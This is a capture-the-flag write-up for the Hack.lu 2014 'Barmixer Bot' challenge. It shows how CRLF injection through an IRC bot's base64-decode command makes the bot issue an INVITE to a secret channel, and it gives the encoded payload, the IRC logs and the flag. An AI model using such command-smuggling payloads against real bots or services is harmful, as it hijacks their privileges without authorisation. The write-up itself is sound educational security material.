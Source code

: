 # Hack.lu CTF 2014: Barmixer Bot

**Category:** Misc
**Points:** 200
**Author:** freddy
**Description:**

> There’s a fun and quirky IRC bot to play with. It responds to commands in private chat but also in #hacklu-saloon on freenode. We think it’s involved in a devious scheme that distracts people to get their money pickpocketed. So be careful!
>
> **Announcement:** Due to a clever hack, somebody took over the nickname `barmixer-bot`, so it is now called `barmixing-bot`.

## Write-up

In the `#hacklu-saloon` channel on Freenode is a bot with operator privileges named `barmixer-bot` (later `barmixing-bot`).

```
22:32:57 <mathiasbynens> !help
22:32:58 <barmixing-bot> Send messages to the bot or the channel starting with an exclamation mark. Known commands are list, status, karma, math, base64, base64d, rot13, ping, hack, request, list
22:33:32 <mathiasbynens> !list
22:33:33 <barmixing-bot> Not implemented ;-)
22:33:34 <mathiasbynens> !status
22:33:35 <barmixing-bot> My name is barmixing-bot, my uptime is 3 hours 7 minutes and 18 seconds. I am on the following channels: #hacklu-saloon, #hacklu-secret-channel
```

That `#hacklu-secret-channel` sure looks interesting. Sadly it’s not possible to just `/join` it, as it’s an invite-only channel.

Some testing reveals that the bot’s `!base64d` functionality can be exploited. By letting the bot decode a multi-line message, remote IRC command execution is possible. Let’s use this to trick the bot into inviting us to the secret channel:

```bash
$ printf "hi\r\nINVITE mathiasbynens #hacklu-secret-channel" | base64
aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
```

Let’s feed this message to the bot for decoding:

```
22:38:44 <mathiasbynens> !base64d aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
22:38:44 <barmixing-bot> hi
22:38:44 <barmixing-bot> Invite to join #hacklu-secret-channel
```

Joining `#hacklu-secret-channel` reveals the flag in the topic:

```
FLAG: GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH
```

The flag is `GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH`.

## Other write-ups and resources

* none yet
